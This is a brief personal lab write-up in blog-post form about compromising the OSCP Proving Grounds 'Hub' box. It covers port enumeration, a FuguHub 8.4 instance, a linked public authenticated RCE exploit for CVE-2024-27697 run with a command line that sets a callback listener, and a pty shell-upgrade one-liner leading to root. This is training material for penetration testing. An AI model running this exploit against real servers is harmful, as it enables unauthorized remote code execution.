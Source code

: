 ```yaml
---
layout: post
title:  "Write Up: Proving Grounds Practice - Hub"
date:   2024-08-03 14:47:31 -0400
categories: oscp proving-grounds TJNull
---
```


192.168.160.25
me - 192.168.45.196

port 80 returns forbidden....

=========================================================================================================================

port 8082

has a fuguhub admin account set up screen, this seems like an easy in and going to pause on it for a sec and check the other port

============================================================================================================================

port 9999

returns 
```
���
```

=========================================================================================
FuguHub 8.4

port 8082

yomej76248@luvnish.com
jubjub
stinkyrinky


https://github.com/SanjinDedic/FuguHub-8.4-Authenticated-RCE-CVE-2024-27697

running 
> └─$ python3 exploit.py -r 192.168.160.25 -l 192.168.45.196 -p 1234

exploit failed but looking at the github page it looks like it tries to create a user and then run the exploit so restarting the server and going to run exploit again against a fresh deployment.

python3 -c 'import pty; pty.spawn("/bin/bash")'



this box sucks, it keeps hanging, I've gotten root but not the proof.....

ok, logged in and was able to cat out /root/proof.txt


